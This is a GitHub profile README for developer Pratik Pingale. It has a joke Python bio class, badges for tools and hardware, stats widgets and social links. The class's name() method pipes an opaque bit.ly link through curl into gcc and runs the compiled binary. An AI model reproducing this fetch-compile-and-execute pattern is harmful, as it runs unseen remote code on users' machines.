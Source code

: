 <h1 align="center">Hi 👋, I'm Pratik Pingale 👨‍💻</h1>
<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?color=%2336BCF7&size=16&center=true&vCenter=true&width=485&lines=Just+a+novice.+Still+got+a+lot+to+learn.;Competitive+Coding+%3Ap;Loves+Open+Source+%E2%9D%A4%EF%B8%8F" alt="Just a novice. Still got a lot to learn." /> 
</p>

```python
class PROxZIMA:
    def __init__(self):
        self.name()

    def bio(self) -> dict:
        return {
            '- 💼 I’m currently working for':    {'Convin.ai': 'https://convin.ai'},
            '- 🔭 I’m currently working on':     {'Prism':     'https://github.com/PROxZIMA/prism',
                                                  'Sweet-Pop': 'https://github.com/PROxZIMA/Sweet-Pop'},
            '- 🌱 I’m currently learning':       ['Django', 'C++', 'Python', 'Full Stack Development', 'Algo Trading'],
            '- 💬 Ask me anything':              '¯\_(ツ)_/¯',
            '- 👨‍💻 My projects are available at': 'https://github.com/PROxZIMA?tab=repositories',
            '- 📄 Know about my experiences':    'https://proxzima.ml/resume',
            '- ⚡ Fun fact':                     ('Proxima Centauri is a small, low-mass star located 4.2465 '
                                                  'light-years away from the Sun in the southern constellation '
                                                  'of Centaurus')
        }

    def name(self):
        subprocess.call("curl -sL 'bit.ly/pr0x21m4' | gcc -w -o name -xc - && ./name", shell=True)

if __name__ == '__main__':
    import subprocess, json
    me = PROxZIMA()
    print(json.dumps(me.bio(), indent=4, ensure_ascii=False).replace('"', ''))
```
<br>
  
### - Tools/Interests 🔗
<p align="center">

  ![Android](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/android.svg)
  ![Arch Linux](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/arch.svg)
  ![Pop!_OS](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/popos.svg)
  ![Windows](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/windows.svg)
  ![Firefox](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/firefox.svg)
  ![Git](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/git.svg)
  ![GitHub](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/github.svg)
  ![BitBucket](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/bitbucket.svg)
  ![Python](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/python.svg)
  ![C](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/c.svg)
  ![C++](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/cplusplus.svg)
  ![Kotlin](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/kotlin.svg)
  ![Bash](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/bash.svg)
  ![HTML5](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/html5.svg)
  ![CSS3](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/css3.svg)
  ![JavaScript](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/js.svg)
  ![MySQL](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/mysql.svg)
  ![PostgreSQL](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/postgresql.svg)
  ![Numpy](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/numpy.svg)
  ![Pandas](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/pandas.svg)
  ![Django](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/django.svg)
  ![Flask](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/flask.svg)
  ![Postman](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/postman.svg)
  ![Google Colab](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/colab.svg)
 [![Google Cloud](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/cloud.svg)](https://www.qwiklabs.com/public_profiles/8ce32532-ca12-4a89-aed0-99c9316cae73)
 [![CodePen](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/codepen.svg)](https://codepen.io/proxzima)
 [![Hackerrank](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/hackerrank.svg)](https://www.hackerrank.com/PROxZIMA)
 [![CodeChef](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/codechef.svg)](https://www.codechef.com/users/proxzima)
 [![LeetCode](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/leetcode.svg)](https://leetcode.com/PROxZIMA)
  ![Alacritty](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/alacritty.svg)
  ![NeoVim](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/neovim.svg)
  ![VS Codium](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/vscode.svg)
  ![Android Studio](https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/android_studio.svg)
</p>

### - Workspace 🖥️
<p align="center">
  <a href="#"><img src="https://img.shields.io/badge/NVIDIA_3050-76B900?style=for-the-badge&logo=nvidia&logoColor=white" alt="NVIDIA3 050"></a>
  <a href="#"><img src="https://img.shields.io/badge/AMD-Ryzen_7_4800H-ED1C24?style=for-the-badge&logo=amd&logoColor=white" alt="AMD Ryzen 7 4800H"></a>
  <a href="#"><img src="https://img.shields.io/badge/asus-laptop-000000?style=for-the-badge&logo=asus&logoColor=white" alt="Asus"></a>
</p>

### - Languages 🔭
<p align="center" >
  <a href="https://github.com/anuraghazra/github-readme-stats"><img src="https://github-readme-stats.vercel.app/api/top-langs/?username=proxzima&&show_icons=true&theme=radical&hide_border=true&layout=compact&custom_title=Languages%20I%20Use" alt="proxzima"/></a>
<!-- </p> -->

### - Stats ⚡️
<p align="center" >
  <a href="https://github.com/anuraghazra/github-readme-stats"><img src="https://github-readme-stats.vercel.app/api?username=proxzima&include_all_commits=true&count_private=true&show_icons=true&theme=radical&hide_border=true&custom_title=PROxZIMA%27s%20Github%20Stats" width="48%" alt="proxzima"/></a>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<a href="https://github.com/DenverCoder1/github-readme-streak-stats"><img src="https://github-readme-streak-stats.herokuapp.com?user=PROxZIMA&theme=radical&hide_border=true" width="48%" alt="My Streak"/></a>
</p>
<br>

## Find me around the web 🌎
<p>
- 📫 Mail me <a href="mailto:pratikbpingale9075@gmail.com"><img align='center' src="https://img.shields.io/badge/Gmail-D14836?style=for-the-badge&logo=gmail&logoColor=white" alt="gmail"></a>
</p>
<br>

<p align="center">
  <a href="https://linkedin.com/in/pratik-pingale"><img src="https://img.shields.io/badge/LinkedIn-0077B5?style=for-the-badge&logo=linkedin&logoColor=white" alt="pratik-pingale"/></a>
  <a href="https://www.instagram.com/pro_x_zima/"><img src="https://img.shields.io/badge/Instagram-E4405F?style=for-the-badge&logo=instagram&logoColor=white" alt="pro_x_zima"/></a>
  <a href="https://twitter.com/pro_x_zima"><img src="https://img.shields.io/badge/Twitter-1DA1F2?style=for-the-badge&logo=twitter&logoColor=white" alt="pro_x_zima"/></a>
  <a href="https://www.reddit.com/user/PratikPingale"><img src="https://img.shields.io/badge/Reddit-FF4500?style=for-the-badge&logo=reddit&logoColor=white" alt="PratikPingale"/></a>
  <a href="https://discordapp.com/users/422274155509972992"><img src="https://img.shields.io/badge/PROxZIMA%237272-7289DA?style=for-the-badge&logo=discord&logoColor=white" alt="PROxZIMA#7272"/></a>
  <a href="https://t.me/PROxZIMA"><img src="https://img.shields.io/badge/Telegram-2CA5E0?style=for-the-badge&logo=telegram&logoColor=white" alt="PratikPingale"/></a>
  <a href="https://marketplace.visualstudio.com/publishers/PROxZIMA"><img src="https://img.shields.io/badge/Visual_Studio_Extensions-5C2D91?style=for-the-badge&logo=visual%20studio&logoColor=white" alt="PROxZIMA"/></a>
</p>

<p align="center">
  <img src="https://komarev.com/ghpvc/?username=PROxZIMA&label=Profile+Views&color=141321" alt="PROxZIMA" /> 
</p>

![](https://hit.yhype.me/github/profile?user_id=43103163)


